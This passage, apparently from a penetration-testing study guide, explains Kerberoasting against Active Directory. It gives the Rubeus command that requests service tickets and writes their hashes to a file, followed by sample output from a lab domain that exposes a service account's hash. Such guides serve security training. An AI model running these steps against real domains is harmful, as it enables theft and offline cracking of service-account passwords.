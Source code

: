 
## Kerberoasting

Kerberoasting exploits the Kerberos ticket-granting process by requesting service tickets for Service Principal Names (SPNs), then performing offline password attacks against the encrypted portions of these tickets.

### Kerberos Service Ticket Mechanism

**Service Ticket Request Process:**
1. **TGS-REQ**: Client requests service ticket for specific SPN
2. **No Authorization Check**: Domain controller issues ticket without permission validation
3. **Service Ticket**: Encrypted with service account password hash
4. **Authorization Check**: Performed only when accessing actual service

**Attack Opportunity:**
- **Ticket Acquisition**: Request service tickets for any known SPN
- **Offline Cracking**: Extract and crack encrypted service ticket
- **Password Recovery**: Obtain service account cleartext password

### Windows-Based Kerberoasting with Rubeus

**Automated Kerberoasting Attack:**
```powershell
# Navigate to tools directory
cd C:\Tools

# Execute Kerberoasting attack with output file
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

**Command Parameters:**
- **kerberoast**: Specify Kerberoasting attack mode
- **/outfile**: Save TGS-REP hashes to specified file
- **/nowrap**: Prevent line breaks in hash output (optional)

**Sample Attack Output:**
```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2

[*] Action: Kerberoasting
[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.
[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'
[*] Total kerberoastable users : 1
[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```
